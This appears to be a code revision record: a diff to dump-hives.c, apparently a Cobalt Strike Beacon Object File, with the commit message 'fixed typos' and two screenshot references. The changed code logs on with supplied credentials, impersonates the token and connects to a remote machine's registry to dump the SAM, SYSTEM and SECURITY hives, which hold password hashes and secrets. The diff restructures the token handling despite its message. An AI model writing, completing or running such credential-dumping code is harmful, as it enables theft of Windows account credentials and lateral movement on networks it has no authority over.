

fixed typos

Changed region(s): [[0.0, 0.0, 1.0, 1.0]]

diff --git a/dump-hives.c b/dump-hives.c
@@ -34,14 +34,12 @@ void go(char * buff, int len) {
 
 	if (domain && user && pass) {
 		
-		if (Advapi32$LogonUserA(user, domain, pass, LOGON32_LOGON_NEW_CREDENTIALS, LOGON32_PROVIDER_DEFAULT, &hToken)) {
-			// BeaconPrintf(CALLBACK_ERROR, "LogonUserA: %d\n", KERNEL32$GetLastError());
-		}
-		else {
+		if (!Advapi32$LogonUserA(user, domain, pass, LOGON32_LOGON_NEW_CREDENTIALS, LOGON32_PROVIDER_DEFAULT, &hToken)) {
 			BeaconPrintf(CALLBACK_ERROR, "Failed: %d", KERNEL32$GetLastError());
-		}
+		}	
+	}
 
-	} 
+	BeaconUseToken(hToken);
 	
 	HKEY hklm;
 	HKEY hkey;
@@ -53,7 +51,6 @@ void go(char * buff, int len) {
 	const char* hives[] = { "SAM", "SYSTEM", "SECURITY" };
 	const char* files[] = { "C:\\SAM.dmp", "C:\\SYSTEM.dmp", "C:\\SECURITY.dmp" };
 
-	BeaconUseToken(hToken);
 
 	result = Advapi32$RegConnectRegistryA(computerName, HKEY_LOCAL_MACHINE, &hklm);
 
